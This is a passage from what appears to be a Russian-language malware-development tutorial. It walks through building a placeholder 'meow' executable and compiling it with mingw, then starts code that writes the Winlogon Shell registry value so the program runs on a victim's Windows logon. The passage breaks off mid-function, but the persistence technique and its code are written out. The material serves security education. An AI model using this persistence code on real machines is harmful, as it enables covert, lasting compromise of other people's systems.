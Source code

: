 Сначала создадим наше вредоносное приложение (`hack.cpp`):

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE 
hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Как видите, это просто всплывающее окно "meow", как обычно.    

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/58/2022-06-12_14-17.png){width="80%"}    

Сгенерированный `hack.exe` нужно поместить на машину жертвы.

Изменения в ключе реестра `Shell`, включающие вредоносное приложение, приведут к выполнению как `explorer.exe`, так и `hack.exe` во время входа в систему Windows.

Это можно сделать с помощью следующего скрипта:


```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  // const char* sh = "explorer.exe,
  // Z:\\2022-06-12-malware-pers-7\\hack.exe";
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
```